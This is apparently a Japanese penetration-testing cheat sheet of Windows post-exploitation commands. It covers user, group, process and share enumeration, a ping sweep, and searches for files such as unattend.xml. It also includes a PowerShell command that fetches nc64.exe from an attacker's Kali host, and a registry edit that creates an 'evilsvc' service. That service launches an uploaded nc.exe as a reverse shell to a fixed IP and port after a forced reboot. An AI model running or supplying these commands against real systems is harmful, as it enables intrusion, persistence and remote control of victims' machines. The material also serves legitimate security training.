 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
    共有ドライブ
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | fiond "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*
    または
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE

    # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* ファイル転送

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc64.exe" -OutFile "nc64.exe")
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

    ``` bat
        #wordpressから[nc.exe]をfile uploadする必要がある。
        reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe 172.31.42.71 4444 -e cmd\"" /f

        #再起動できる場合は再起動
        shutdown /r /t 0
    ```

* サービス登録

  ``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # 
    sc qc evilsvc
  ```
